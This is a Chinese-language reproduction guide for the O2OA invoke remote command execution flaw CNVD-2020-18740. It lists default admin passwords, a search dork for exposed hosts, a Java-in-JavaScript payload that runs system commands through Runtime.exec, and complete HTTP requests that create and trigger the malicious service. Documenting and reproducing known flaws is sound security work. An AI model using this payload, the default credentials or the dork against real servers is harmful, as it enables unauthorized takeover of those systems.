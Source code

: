 # O2OA invoke 后台远程命令执行漏洞 CNVD-2020-18740

## 漏洞描述

O2OA 是一款开源免费的企业及团队办公平台，提供门户管理、流程管理、信息管理、数据管理四大平台，集工作汇报、项目协作、移动 OA、文档分享、流程审批、数据协作等众多功能，满足企业各类管理和协作需求。 O2OA 系统 invoke 接口存在远程代码执行漏洞。攻击者可利用漏洞执行任意代码。此漏洞在 O2OA 7.2.7 版本得到修复。

参考链接：

- https://www.cnvd.org.cn/flaw/show/CNVD-2020-18740

## 披露时间

2020-04-06

## 漏洞影响

```
O2OA 6.x
```

## 网络测绘

```
title=="O2OA"
```

## 环境搭建

在 [官网下载](https://www.o2oa.net/download.html) 一个 6.2.0 版本，本地搭建测试：

```
unzip o2server-6.2.0-linux-x64.zip 
cd o2server
./start_linux.sh
```

![](images/O2OA%20invoke%20后台远程命令执行漏洞%20CNVD-2020-18740/image-20250228143549531.png)

## 漏洞复现

默认密码登录后台 `xadmin/o2`（或 `xadmin/o2oa@2022`），点击 `Service Platform` 进入服务平台：

![](images/O2OA%20invoke%20后台远程命令执行漏洞%20CNVD-2020-18740/image-20250228150153382.png)

点击 `Create Service` 创建一个服务：

![](images/O2OA%20invoke%20后台远程命令执行漏洞%20CNVD-2020-18740/image-20250228150214613.png)

填写必填项，写入 payload：

```
var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream()));

var result = [];
while (true) {
    var oneline = bufReader.readLine();
    result.push(oneline);
    if (!oneline) break;
}
var result = { "Result": result };
this.response.setBody(result, "application/json"); 
```

![](images/O2OA%20invoke%20后台远程命令执行漏洞%20CNVD-2020-18740/image-20250228150105054.png)

部分版本可以直接执行，有些版本需要构造请求包：

```
POST /x_program_center/jaxrs/invoke?v=6.1 HTTP/1.1
Host: 10.0.12.15:20030
Accept: */*
Referer: http://10.0.12.15/
Accept-Encoding: gzip, deflate
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Content-Type: application/json; charset=UTF-8
Origin: http://10.0.12.15
authorization: PfyuxmzgIzrLF0IUhEF-rgO3PHNy_z4650QnO7mEHhA
Content-Length: 1048

{"id":"test","name":"test","enableToken":false,"alias":"","description":"","validated":true,"enable":true,"text":"var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(\"id\").getInputStream()));\n\nvar result = [];\nwhile (true) {\n    var oneline = bufReader.readLine();\n    result.push(oneline);\n    if (!oneline) break;\n}\nvar result = { \"Result\": result };\nthis.response.setBody(result, \"application/json\"); ","remoteAddrRegex":"","createTime":"2025-02-28 15:54:17","updateTime":"2025-02-28 15:54:17"}
```

![](images/O2OA%20invoke%20后台远程命令执行漏洞%20CNVD-2020-18740/image-20250228160252832.png)

创建成功后访问接口执行系统命令：

```
POST /x_program_center/jaxrs/invoke/test/execute HTTP/1.1
Host: 10.0.12.15:20030
Accept: */*
Referer: http://10.0.12.15/
Accept-Encoding: gzip, deflate
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Content-Type: application/json; charset=UTF-8
authorization: PfyuxmzgIzrLF0IUhEF-rgO3PHNy_z4650QnO7mEHhA
Content-Length: 1048
```

![](images/O2OA%20invoke%20后台远程命令执行漏洞%20CNVD-2020-18740/image-20250228160439089.png)

## 漏洞修复

建议升级 O2OA 最新版本： https://www.o2oa.net/download.html
